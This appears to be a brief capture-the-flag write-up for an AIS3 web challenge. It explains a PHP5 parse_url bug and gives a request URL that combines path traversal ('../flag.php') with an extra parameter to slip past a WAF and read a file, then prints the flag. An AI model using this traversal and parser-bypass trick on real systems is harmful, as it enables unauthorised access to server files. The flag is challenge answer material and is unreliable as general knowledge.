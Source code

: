 # web3

[`parse_url` 有 bug](http://stackoverflow.com/questions/34020735/parse-url-does-not-parse-a-specific-url)

[view-source:https://quiz.ais3.org:8013/download.php?p=../flag.php&zz=sku:89399](https://quiz.ais3.org:8013/download.php?p=../flag.php&zz=sku:89399)

原始碼都備份在 [web3](web3)，請注意，這個 bug 在 php7 已經修好了，要用 php5 才能重現環境

`CTF{haha!i_bypassed_the_fucking_waf!}`
